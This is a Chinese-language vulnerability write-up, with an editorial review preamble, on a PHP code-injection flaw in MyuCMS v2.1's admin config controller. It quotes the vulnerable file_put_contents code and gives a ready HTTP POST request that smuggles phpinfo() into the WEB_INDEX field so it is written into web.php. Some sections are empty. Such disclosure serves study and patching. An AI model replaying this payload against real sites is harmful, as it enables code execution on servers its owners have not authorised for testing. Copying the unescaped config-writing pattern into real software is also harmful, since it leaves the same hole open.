

## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；遮罩后的历史值不能作为可用登录凭据。原操作、请求方法和攻击表达式保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台config接口鉴权未说明；application/extra/web.php可写且后续加载

- **代码与转录边界（1）**：extre与实际extra目录拼写不一；三文件五处声称只有一处完整示例，其他应候选。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **凭据与会话边界（2）**：请求含后台会话，不能与286Addons无认证结论自动通用；PHP代码注入不是直接OS命令。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **操作与副作用边界（3）**：首效果图引用任意目录删除文章，需核对；更新大量配置字段有副作用。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# MyuCMS v2.1 命令执行漏洞

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

CNVD上没有说明存在的页面。我找到的是一处能控制 **extre/web.php**
内容的漏洞。

漏洞成因是使用 **file\_put\_contents** 函数更新 **extre**
下配置文件的内容时，未对参数内容做验证，而直接通过循环遍历，拼接到了php后缀的配置文件中。

相同原理漏洞影响3个文件共5处。分别为
**application/admin/controller/Config.php**，
**application/admin/controller/Muban.php**
，**application/admin/controller/Point.php**

此处以 **application/admin/controller/Config.php** 下的 **add()**
方法为例分析

    public function add()
        {
           $path = 'application/extra/web.php';
           $file = include $path;      // $file 的内容为 web.php 中返回的配置数组的值
           $config = array( // 读取 post 中提交的配置内容
             'WEB_RXT' => input('WEB_RXT'),
             'WEB_GL' => input('WEB_GL'),
             'WEB_REG' => input('WEB_REG'),
             'WEB_TAG' => input('WEB_TAG'),
             'WEB_OPE' => input('WEB_OPE'),
             'WEB_BUG' => input('WEB_BUG'),
             'WEB_BBS' => input('WEB_BBS'),
             'WEB_SHOP' => input('WEB_SHOP'),
             'WEB_INDEX' => input('WEB_INDEX'),
             'WEB_KEJIAN' => input('WEB_KEJIAN'),
             'WEB_KEJIANS' => input('WEB_KEJIANS'),
             'Cascade' => input('Cascade'),
             //七牛
             'bucket' => input('bucket'),
             'accessKey' => input('accessKey'),
             'secrectKey' => input('secrectKey'),
             'domain' => input('domain'),
             'qiniuopen' => input('qiniuopen'),
           );
            $res = array_merge($file, $config); // 合并两个数组
            $str = '<?php return [';
            foreach ($res as $key => $value) { // 循环数组，生成新的配置内容
                $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
            }
            $str .= ']; ';
            if (file_put_contents($path, $str)) { // 将配置内容写入 web.php 文件
                return json(array('code' => 200, 'msg' => '修改成功'));
            } else {
                return json(array('code' => 0, 'msg' => '修改失败'));
            }
        }

### Payload

Payload数据包如下：

    POST /admin/config/add.html HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 327
    Origin: http://www.myu.io
    Connection: close
    Referer: http://www.myu.io/admin/config/index.html
    Cookie: PHPSESSID=l6i********************q90; UM_distinctid=170343d2b4a291-0a4e487f247e62-4c302978-1fa400-170343d2b4b28f; CNZZDATA1277972876=1874892142-1581419669-%7C1581432904; XDEBUG_SESSION=XDEBUG_ECLIPSE

    WEB_KEJIAN=0&WEB_KEJIANS=0&WEB_INDEX=bbs',phpinfo(),'&WEB_RXT=rar,png,zip,jpg,gif,ico,7z&qiniuopen=0&secrectKey=0&accessKey=0&domain=0&bucket=0&Cascade=1&WEB_BUG=true&WEB_REG=1&WEB_OPE=1&WEB_GL=0&WEB_BBS=1&WEB_SHOP=1&WEB_TAG=%e6%8f%92%e4%bb%b6%2c%e5%bb%ba%e8%ae%ae%2c%e6%a8%a1%e6%9d%bf%2c%e7%ad%be%e5%88%b0%2c%e5%8f%8d%e9%a6%88

写入的内容和效果如下：

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-4
